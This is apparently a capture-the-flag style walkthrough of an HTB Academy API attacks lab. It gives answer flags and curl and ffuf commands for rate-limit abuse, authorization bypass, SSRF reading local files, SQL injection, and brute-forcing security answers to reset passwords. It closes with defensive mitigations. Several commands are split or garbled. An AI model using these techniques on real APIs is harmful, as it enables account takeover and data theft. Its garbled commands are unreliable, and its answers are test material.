
*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Unrestricted Resource Consumption

> **Lab Question (Page 13)**: Exploit another Unrestricted Resource Consumption vulnerability and submit the flag.
>
> **Flag / Answer**: `HTB{01de742d8cd942ad682aeea9ce3c5428}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will overflow
/api/v1/authentication/customers/passwords/resets/sms-otps
With requests, we will use the bash script:
for i in {1..11}; do
```bash
curl -X 'POST' \
'http://<target-IP>:<target-port>/api/v1/authentication/customers/passwords/resets/sms-
otps' \
-H 'accept: application/json' \
-H 'Content-Type: application/json' \
-d '{
"Email": "jonsnow@winterfell.com"
}'
done
```
which will send a request to the endpoint 11 times

On the 11th request – the system will recognize the overflow and give us the
flag.


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


### Broken Function Level Authorization

> **Lab Question (Page 14)**: Exploit another Broken Function Level Authorization vulnerability and submit the flag.
>
> **Flag / Answer**: `HTB{1e2095c564baf0d2d316080217040dae}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will authenticate to customers using the provided credentials
'htbpentester9@hackthebox.com:HTBPentester9'.

Then we go to
/api/v1/customers/billing-addresses
GET endpoint.
And execute the following curl command:
```bash
curl -X 'GET' \
'http://<target-IP>:<target-port>/api/v1/customers/billing-addresses' \
-H 'accept: application/json' \
-H 'Authorization: Bearer <htbpentester9 authentication
code>' | grep HTB -i
```


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### Unrestricted Access to Sensitive Business Flows

> **Lab Question (Page 15)**: Based on the previous vulnerability, exploit the Unrestricted Access to Sensitive Business Flow vulnerability and submit the street name where the user with the ID 'daa8c984-ba84-4265-8d88-12d6607e511c' lives.
>
> **Flag / Answer**: `788 Sauchiehall St.`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section's question – we run
```bash
curl -X 'GET' \
'http://<target-IP>:<target-port>/api/v1/customers/billing-addresses' \
-H 'accept: application/json' \
-H 'Authorization: Bearer <htbpentester9 authentication
code>' | grep daa8c984-ba84-4265-8d88-12d6607e511c -i
```


*
*


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Server Side Request Forgery

> **Lab Question (Page 16)**: Exploit another Server Side Request Forgery vulnerability and submit the contents of the file '/etc/flag.conf'.
>
> **Flag / Answer**: `HTB{3c94232c4f0b0a544ae4024833eef0b3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will authenticate to suppliers using the provided credentials
'htbpentester11@pentestercompany.com:HTBPentester11'.

Then we go to the POST endpoint:
/api/v1/products/current-user

And post a new product with the PNGPhotoFileURI value of
'file:///etc/flag.conf'

→


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


### GET endpoint, and put in it the received productID

We get the productID 'c954234d-7e76-422f-9882-fb4d2c270112' , whose
picture is the local path to the flag.

Now we go to
/api/v1/products/current-user
PATCH endpoint
And re-enter the received ProdoctID and the same parameters

* Note: yes – both the POST request and the PATCH request are requires, as
with the POST we get the ProductID, but the server side request forgery
vulnerability is in the PATCH request. The attack with not work without the
PATCH*


Now we proceed to
/api/v1/products/{ID}/photo
GET endpoint, and put in it the received productID:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


And we get the base64 encoded flag. We proceed to decode it:
```bash
echo SFRCezNjOTQyMzJjNGYwYjBhNTQ0YWU0MDI0ODMzZWVmMGIzfQo= |
base64 -d  -H 'accept: application
```


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### Security Misconfiguration

> **Lab Question (Page 19)**: Exploit another Security Misconfiguration and provide the total count of records within the target table.
>
> **Flag / Answer**: `151`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will authenticate to customers using the provided credentials
'htbpentester13@hackthebox.com:HTBPentester13'.

Then, on the GET endpoint
/api/v1/suppliers/{Name}/count
We use sql injection to obtain the total count of records.
We put in 'Name' input parameter the value: 'laptop' OR 1=1 --':

*
*


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


### Improper Inventory Management

> **Lab Question (Page 20)**: Submit the header and its value that expose another Security Misconfiguration in the API.
>
> **Flag / Answer**: `Access-Control-Allow-Origin: *`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

full explanation can be found in this website – 'Access-Control-Allow-
Origin: *' means that the API accepts requests from everyone, which can cause
troubles.

Improper Inventory Management:
Question: Exploit the Improper Inventory Management vulnerability and
submit the value of the 'Email' field from the deleted Supplier Company with
the ID 'c250cb38-96e3-4ccf-9df2-0a03146a2d0b'.
Answer: HTB{43c2754afea99eba70fb2c8dc443c660}
Method: we go to
/api/v0/supplier-companies/deleted


*
*


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


### Unsafe Consumption of APIs

> **Lab Question (Page 21)**: If v1 of Inlanefreight's E-Commerce Marketplace accepted data from the '/api/v0/suppliers/deleted' endpoint unsafely, what would the password hash of 'Yara MacDonald' be in v1?
>
> **Flag / Answer**: `006006C3167E90A7575A12E474218D86`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we go to
/api/v0/suppliers/deleted
GET endpoint:

**

And search for 'Yara MacDonald'


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### Capstone: Skills Assessment

> **Lab Question (Page 22)**: Submit the contents of the flag at '/flag.txt'.
>
> **Flag / Answer**: `HTB{f190b80cd543a84b236e92a07a9d8d59}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we authenticate to
/api/v2/authentication/customers/sign-in
With the provided credentials 'htbpentester@hackthebox.com:HTBPentester'.

With it, we can access the suppliers list via the GET endpoint
/api/v2/suppliers
We will enumerate the endpoint for suppliers who have their security question
provided – in an attempt to reset it:
```bash
curl -X 'GET'   'http://<target-IP>:<target-port>/api/v2/suppliers'   -H 'accept: application/json'   -H
'Authorization: Bearer `<authentication-payload>`' | \
jq '.suppliers[] | select(.securityQuestion !=
"SupplierDidNotProvideYet")'
```


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### ity-question-answers      -X POST      -H "accept

#### Technical Methodology & Exploit Execution:

```bash
ffuf -u http://<target-IP>:<target-port>/api/v2/authentication/suppliers/passwords/resets/secur
```
ity-question-answers      -X POST      -H "accept:
application/json"      -H "Content-Type: application/json"
-d '{"SupplierEmail": "FUZZ", "SecurityQuestionAnswer":
"FUZ2", "NewPassword": "jonsnow123"}'      -w
emails.txt:FUZZ      -w colors.txt:FUZ2      -fr "false" -s
to bruteforce all the emails in emails.txt, using answers in color .txt (which
contains common and less common colors) for their security question.
If we get an hit – the supplier's password will be reset to 'jonsnow123':

The bruteforce script found the supplier 'B.Rogers@globalsolutions.com' has
his favorite color 'rust' , and his password was effectively reset to 'jonsnow123'.


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### password

We will proceed to authenticate using 'B.Rogers@globalsolutions.com' reset
password:

*
*


Once authenticated – we will modify his parameter 'ProfessionalCVPDFFileURI'
to 'file:///flag.txt', via the PATCH endpoint
/api/v2/suppliers/current-user
That, is so we can use SSRF (server side request forgery to obtain the flag):

*


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


### was modified to the local host flag.txt)

*

And we can observe the modification was successful.

Once the 'ProfessionalCVPDFFileURI' of 'B.Rogers@globalsolutions.com' was
```bash
set to the 'file:///flag.txt' – we will proceed to the GET endpoint
/api/v2/suppliers/current-user/cv
```
To obtain the base64 encoded flag, in the form of the supplier's 'CV' (which
was modified to the local host flag.txt):

*
*


Once we get the base64 encoded flag, we proceed to decode it:
```bash
echo SFRCe2YxOTBiODBjZDU0M2E4NGIyMzZlOTJhMDdhOWQ4ZDU5fQo= |
base64 -d
```


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


*_Figure 25.3 — Lab execution and output verification (Page 25)_*


*_Figure 25.4 — Lab execution and output verification (Page 25)_*


---

## Enterprise Defense & Mitigation Blueprint

To neutralize the attack vectors demonstrated throughout this module, security engineers and infrastructure administrators should implement layered defense-in-depth controls:

1. **Principle of Least Privilege (PoLP)**: Strictly segregate administrative rights, isolate service accounts into managed domains (gMSAs), and strip unnecessary capabilities (`CAP_SETUID`, `SeImpersonatePrivilege`).
2. **Input Validation & Parameterization**: Neutralize command injection, LFI, and parameter tampering at the source by utilizing strict type allowlists, parameterized ORMs, and secure input sanitization.
3. **Network Boundary Segmentation**: Isolate sensitive internal management ports (SSH, WinRM, SMB, RDP, SQL) behind bastion hosts and multi-factor VPN gateways with network-level microsegmentation.
4. **Telemetry & Threat Detection**: Forward audit logs (Sysmon, Windows Event Logs, Linux Auditd, Zeek) to a centralized SIEM with behavioral rules targeting anomalous process spawning (`cmd.exe` from `w3wp.exe`, unexpected SUID execution, or mass port probing).


---

## MITRE ATT&CK Mapping & Threat Matrix

| Security Domain | Mapping Specification |
| :--- | :--- |
| **Primary Tactic** | Enterprise Penetration Testing & Adversary Simulation |
| **Mitre Techniques** | `T1190, T1059, T1552` |
| **Common Weakness Enumerations** | `CWE-284, CWE-287, CWE-942` |

### Adversary Tradecraft & Technique Breakdown

| Technique ID | Technique Name | Tactic | Applied Offensive / Defensive Context |
| :--- | :--- | :--- | :--- |
| [`T1190`](https://attack.mitre.org/techniques/T1190/) | **Exploit Public-Facing Application** | `Initial Access` | Targeting REST, GraphQL, and SOAP API endpoints |
| [`T1059`](https://attack.mitre.org/techniques/T1059/) | **Command and Scripting Interpreter** | `Execution` | Injecting commands or SQL through API parameters |
| [`T1552`](https://attack.mitre.org/techniques/T1552/) | **Unsecured Credentials** | `Credential Access` | Harvesting exposed API keys and JWT secrets from client scripts |


### Identified Common Weakness Enumerations (CWE)

- [`CWE-284`: Improper Access Control (Broken Object Level Authorization - BOLA)](https://cwe.mitre.org/data/definitions/284.html)
- [`CWE-287`: Improper Authentication (Broken Authentication)](https://cwe.mitre.org/data/definitions/287.html)
- [`CWE-942`: Permissive Cross-Domain Policy with Untrusted Domains](https://cwe.mitre.org/data/definitions/942.html)


---

## Detection Engineering & Defensive Countermeasures

Modern enterprise security programs must implement proactive, layered defense-in-depth controls to detect and mitigate the techniques covered in this module:

- Enforce object-level authorization checks at the controller level ensuring requesting users own requested resource IDs.
- Implement rate-limiting and quota controls per API client token and IP address.
- Validate and sanitize all API input payloads against a strict schema definition (OpenAPI / JSON Schema).


---

## Authoritative References & Recommended Reading

- [HTB Academy: API Attacks](https://academy.hackthebox.com/module/160) — *Official Hack The Box curriculum track*
- [OWASP API Security Top 10 (2023)](https://owasp.org/API-Security/editions/2023/en/0x00-header/) — *Authoritative standard for API threat vectors*
- [Postman API Security Testing Guide](https://learning.postman.com/docs/api-governance/api-security/) — *Standard testing workflows*
- [PortSwigger: API Testing](https://portswigger.net/web-security/api-testing) — *Web Security Academy interactive modules*


<div class="ff-series-nav">
  <a href="/posts/htb-academy-part-22-pivoting-tunneling-and-port-forwarding/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 22: Pivoting, Tunneling & Port Forwarding</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
